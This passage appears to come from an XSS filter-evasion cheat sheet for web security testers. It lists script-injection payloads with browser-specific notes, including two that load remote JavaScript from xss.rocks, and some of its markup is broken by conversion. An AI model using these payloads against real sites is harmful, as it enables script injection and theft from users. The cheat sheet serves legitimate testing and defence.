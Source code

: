 ``<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>``

Yair Amit brought this to my attention that there is slightly different
behavior between the IE and Gecko rendering engines that allows just a
slash between the tag and the parameter with no spaces. This could be
useful if the system does not allow spaces.

`<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>`

## Extraneous open brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain
detection engines that work by first using matching pairs of open and
close angle brackets and then by doing a comparison of the tag inside,
instead of a more efficient algorythm like Boyer-Moore that looks for
entire string matches of the open angle bracket and associated tag (post
de-obfuscation, of course). The double slash comments out the ending
extraneous bracket to supress a JavaScript error:

`<`

<SCRIPT>

alert("XSS");//\<

</SCRIPT>

## No closing script tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't
actually need the "\>

</SCRIPT>

" portion of this Cross Site Scripting vector. Firefox assumes it's safe
to close the HTML tag and add closing tags for you. How thoughtful\!
Unlike the next one, which doesn't effect Firefox, this does not require
any additional HTML below it. You can add quotes if you need to, but
they're not needed generally, although beware, I have no idea what the
HTML will end up looking like once this is injected:

`<SCRIPT SRC=http://xss.rocks/xss.js?< B >`

## Protocol resolution in script tags

This particular variant was submitted by Łukasz Pilorz and was based
partially off of Ozh's protocol resolution bypass below. This cross site
scripting example works in IE, Netscape in IE rendering mode and Opera
if you add in a

</SCRIPT>

tag at the end. However, this is especially useful where space is an
issue, and of course, the shorter your domain, the better. The ".j" is
valid, regardless of the encoding type because the browser knows it in
context of a SCRIPT tag.
